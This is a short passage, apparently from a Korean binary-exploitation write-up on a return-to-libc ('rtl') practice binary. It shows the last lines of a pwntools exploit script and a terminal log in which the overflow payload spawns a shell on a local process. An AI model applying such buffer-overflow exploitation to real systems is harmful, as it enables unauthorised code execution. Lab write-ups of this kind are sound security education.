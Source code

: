 ```python 

p.send(payload)
p.interactive()
```

위 코드를 실행하면 shell을 획득하게 된다.


```
$ python poc.py 
[+] Starting local process './rtl': pid 32571
[*] Switching to interactive mode
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x10\x1dAAAAxff\xff\xa4\xff
$ ls
rtl  rtl.c
```




